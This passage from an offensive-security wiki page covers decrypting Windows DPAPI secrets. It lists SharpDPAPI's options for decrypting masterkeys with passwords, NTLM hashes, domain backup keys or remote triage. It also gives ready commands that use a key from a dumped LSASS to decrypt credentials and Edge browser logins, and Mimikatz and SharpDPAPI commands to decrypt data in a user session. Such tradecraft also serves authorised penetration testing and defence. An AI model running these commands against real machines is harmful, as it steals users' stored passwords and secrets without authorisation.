 The **SharpDPAPI** tool also supports these arguments for `credentials|vaults|rdg|keepass|triage|blob|ps` decryption (note how it's possible to use `/rpc` to get the domains backup key, `/password` to use a plaintext password, `/pvk` to specify a DPAPI domain private key file, `/unprotect` to use current users session...):

```
Decryption:
/unprotect          -   force use of CryptUnprotectData() for 'ps', 'rdg', or 'blob' commands
/pvk:BASE64...      -   use a base64'ed DPAPI domain private key file to first decrypt reachable user masterkeys
/pvk:key.pvk        -   use a DPAPI domain private key file to first decrypt reachable user masterkeys
/password:X         -   decrypt the target user's masterkeys using a plaintext password (works remotely)
/ntlm:X             -   decrypt the target user's masterkeys using a NTLM hash (works remotely)
/credkey:X          -   decrypt the target user's masterkeys using a DPAPI credkey (domain or local SHA1, works remotely)
/rpc                -   decrypt the target user's masterkeys by asking domain controller to do so
GUID1:SHA1 ...      -   use a one or more GUID:SHA1 masterkeys for decryption
/mkfile:FILE        -   use a file of one or more GUID:SHA1 masterkeys for decryption

Targeting:
/target:FILE/folder -   triage a specific 'Credentials','.rdg|RDCMan.settings', 'blob', or 'ps' file location, or 'Vault' folder
/server:SERVER      -   triage a remote server, assuming admin access
                        Note: must use with /pvk:KEY or /password:X
                        Note: not applicable to 'blob' or 'ps' commands
```

- Using a DPAPI prekey/credkey directly (no password needed)

If you can dump LSASS, Mimikatz often exposes a per-logon DPAPI key that can be used to decrypt the user’s masterkeys without knowing the plaintext password. Pass this value directly to the tooling:

```cmd
# SharpDPAPI accepts the "credkey" (domain or local SHA1)
SharpDPAPI.exe triage /credkey:SHA1_HEX

# SharpChrome accepts the same value as a "prekey"
SharpChrome logins /browser:edge /prekey:SHA1_HEX
```


- Decrypt some data using **current user session**:

```bash
# Mimikatz
dpapi::blob /in:C:\path\to\encrypted\file /unprotect

# SharpDPAPI
SharpDPAPI.exe blob /target:C:\path\to\encrypted\file /unprotect
```

---

### Offline decryption with Impacket dpapi.py
